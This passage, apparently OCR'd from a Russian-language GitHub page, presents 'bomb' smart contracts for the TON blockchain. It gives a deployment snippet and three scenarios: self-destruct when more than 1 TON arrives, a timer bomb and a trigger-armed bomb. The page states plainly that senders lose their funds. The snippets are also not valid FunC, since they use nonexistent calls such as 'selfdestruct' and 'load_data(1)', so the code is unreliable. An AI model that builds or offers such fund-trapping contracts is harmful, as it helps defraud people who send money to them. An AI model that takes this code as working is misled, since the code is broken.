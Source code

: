```js
    const seqno = await client.getSeqNo(wallet.address);
    await wallet.sendTransfer({
        secretKey: keyPair.secretKey,
        seqno,
        messages: [deployMessage]
    });

    console.log("💣 Бомба установлена.");
}
```

---

# 🧬 Часть 2: Сценарии применения

---

### 💀 1. Самоуничтожение при переводе средств

```func
() recv_internal (slice in_msg_body) {
    int amount = slice_load_coins(in_msg_body);
    if (amount > 1000000000) {
        send_raw_message("💥 BOOM 💥", 64);
        selfdestruct(get_sender());
    }
}
```

> Любой, кто переведёт больше 1 TON на такой контракт, может потерять его без возможности восстановления.

---

### ⏱️ 2. Таймер-бомба

```func
int now = get_unixtime();
if (now > 1735689600) { ;; дата UTC в секундах
    send_raw_message("⏰ Бомба сработала!", 64);
    selfdestruct(get_sender());
}
```

> Такой контракт спит до определённого времени, а потом рвётся.

---

### 🧬 3. Бомба-триггер

```func
if (equal_slices(in_msg_body, "arm_the_bomb")) {
    set_data("armed", 1);
} else {
    if (load_data(1) == 1) {
        selfdestruct(get_sender());
    }
}
```
